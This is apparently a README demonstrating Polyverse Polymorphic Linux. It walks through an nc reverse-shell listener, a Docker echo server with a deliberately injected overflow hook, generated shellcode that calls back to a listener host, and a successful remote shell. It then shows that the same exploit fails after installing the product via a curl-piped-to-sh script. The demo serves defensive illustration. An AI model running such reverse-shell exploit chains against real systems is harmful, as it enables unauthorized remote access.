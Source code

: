 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
```
docker run -it --rm -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
```
### (2) We'll need curl and wget later
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
```
### (2) Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
curl localhost:8080/$shellCode
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse Polymorphic Linux
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Update packages with Polymorphic Linux packages
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
```
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
### (3) Try the shellCode with Polymorphic Linux
```
curl localhost:8080/$shellCode
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
